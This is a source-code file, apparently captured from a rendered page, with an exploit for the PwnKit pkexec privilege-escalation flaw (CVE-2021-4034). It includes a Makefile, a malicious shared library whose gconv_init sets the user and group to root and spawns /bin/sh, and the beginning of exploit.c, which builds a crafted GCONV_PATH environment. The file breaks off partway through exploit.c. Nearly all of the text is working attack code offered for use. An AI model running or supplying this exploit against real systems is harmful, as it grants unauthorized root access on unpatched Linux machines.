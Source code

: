 # cve-2021-4034.c File: (exploit)
```cpp
# Exploit Title: PolicyKit-1 0.105-31 - Privilege Escalation
# Exploit Author: Lance Biggerstaff
# Original Author: ryaagard (https://github.com/ryaagard)
# Date: 27-01-2022
# Github Repo: https://github.com/ryaagard/CVE-2021-4034
# References: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt

# Description: The exploit consists of three files `Makefile`, `evil-so.c` & `exploit.c`

##### Makefile #####

all:
	gcc -shared -o evil.so -fPIC evil-so.c
	gcc exploit.c -o exploit

clean:
	rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so

#################

##### evil-so.c #####

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

// Sets the UID, GID and Group to root and spawns a new shell with this privileged process.
void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);

    execve("/bin/sh", NULL, NULL);
}

#################

##### exploit.c #####

#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",     // The `SHELL` variable usually contains the path to the user's preferred shell. In this case, it is set to a custom value, 
						        // which might be used for a specific purpose within the application.
    
        "CHARSET=ryaagard",   //The `CHARSET` variable is typically used to specify the character encoding used by the system or application. 
```